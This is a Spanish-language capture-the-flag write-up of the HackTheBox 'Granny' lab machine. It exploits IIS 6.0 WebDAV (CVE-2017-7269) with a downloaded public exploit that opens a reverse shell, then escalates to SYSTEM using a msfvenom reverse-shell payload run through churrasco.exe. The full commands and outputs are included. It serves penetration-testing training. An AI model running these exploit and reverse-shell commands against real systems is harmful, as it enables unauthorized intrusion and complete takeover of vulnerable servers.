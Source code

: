 ```yaml
---
title: HackTheBox - Granny
categories: [Windows]
tags: [HackTheBox, eJPT, Windows]
---
```


<img src="/assets/HTB/Granny/granny.png">

En este post voy a explicar como resolver la máquina Granny de [Hack The Box](https://app.hackthebox.com/machines/14), en la cual vamos a estar explotando una vulnerabilidad de un ```IIS 6.0``` y para la escalada vamos a hacer uso del exploit ```churrasco.exe```

## Escaneo de puertos

```
# nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.10.15
Nmap scan report for 10.10.10.15
Host is up (0.25s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-methods:
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-webdav-scan:
|   WebDAV type: Unknown
|   Server Type: Microsoft-IIS/6.0
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Server Date: Mon, 12 Dec 2022 00:13:17 GMT
|_http-title: Under Construction
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Como vemos, la página tiene el puertos 80 (HTTP) abierto.

# Enumeración
Al ingresar a la página, vemos esto.

<img src="/assets/HTB/Granny/granny-pagina.png">

Si usamos la herramienta whatweb para recopilar información del servidor web, vemos que se está utilizando ```Microsoft-IIS[6.0]```.

```
$ whatweb http://10.10.10.15/

HTTPServer[Microsoft-IIS/6.0], IP[10.10.10.15], Microsoft-IIS[6.0][Under Construction], MicrosoftOfficeWebServer[5.0_Pub], UncommonHeaders[microsoftofficewebserver], X-Powered-By[ASP.NET]
```

Esta versión del ```IIS``` es vulnerable a ```ejecución de código arbitrario```, para explotarlo vamos a hacer uso de este [exploit](https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell) creado por ```g0rx```, el cual nos mandara directamente una ```reverse shell```.

# Reverse Shell

```
$ curl -s  https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell -o IIS-exploit.py

$ python2 IIS-exploit.py 10.10.10.15 80 [Reverse IP] [Reverse Port]

```
```
$ rlwrap nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.15] 1031
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv> whoami

nt authority\network service
```
# Enumeración del sistema
Al hacer un ```whoami /priv```, veremos que tenemos el privilegio ```SeImpersonatePrivilege```, el cual podemos abusar haciendo uso del exploit ```churrasco.exe```, una alternativa al ```JuicyPotato.exe```, usaremos esa alternativa, ya que en algunos escenarios, el exploit JuicyPotato no es compatible con los sistemas más antiguos.

Lo primero que vamos a hacer es descargarnos el exploit ```churrasco.exe``` y crearnos un archivo malicioso haciendo uso de msfvenom el cual se encargue de mandarnos una reverse shell.

```
$ wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe

No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

Una vez creados, los transferiremos a la máquina víctima, haciendo uso de la herramienta ```impacket-smbserver```.

```
$ sudo impacket-smbserver smbFolder $(pwd) -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Una vez este inicializado el servidor SMB en la máquina local, descargaremos los archivo de la siguiente forma.

```
c:\windows\system32\inetsrv>cd C:\Windows\Temp
C:\WINDOWS\Temp>copy \\10.10.14.2\smbFolder\churrasco.exe churrasco.exe
        1 file(s) copied.

C:\WINDOWS\Temp>copy \\10.10.14.2\smbFolder\shell.exe shell.exe
        1 file(s) copied.

C:\WINDOWS\Temp>dir

 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\WINDOWS\Temp

12/12/2022  03:50 AM    <DIR>          .
12/12/2022  03:50 AM    <DIR>          ..
12/12/2022  03:38 AM            31,232 churrasco.exe
04/12/2017  09:14 PM    <DIR>          rad61C21.tmp
04/12/2017  09:14 PM    <DIR>          radDDF39.tmp
12/12/2022  03:44 AM            73,802 shell.exe
02/18/2007  02:00 PM            22,752 UPD55.tmp
12/24/2017  07:24 PM    <DIR>          vmware-SYSTEM
12/12/2022  02:07 AM            25,552 vmware-vmsvc.log
09/16/2021  01:54 PM             4,679 vmware-vmusr.log
12/12/2022  02:08 AM               728 vmware-vmvss.log
               6 File(s)        158,745 bytes
               5 Dir(s)   1,323,311,104 bytes free

C:\WINDOWS\Temp>
```
# Escalada de privilegios

Ahora nos pondremos en escucha por el puerto que le especificamos en el archivo malicioso, y lo ejecutaremos haciendo uso del exploit ```churrasco.exe``` para que nos llegue una reverse shell como ```nt authority\system```.

```
C:\WINDOWS\Temp>churrasco.exe
/churrasco/-->Usage: Churrasco.exe [-d] "command to run"

C:\WINDOWS\Temp>churrasco.exe -d ".\shell.exe"
/churrasco/-->Current User: NETWORK SERVICE
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

```
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.15] 1036
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
nt authority\system
```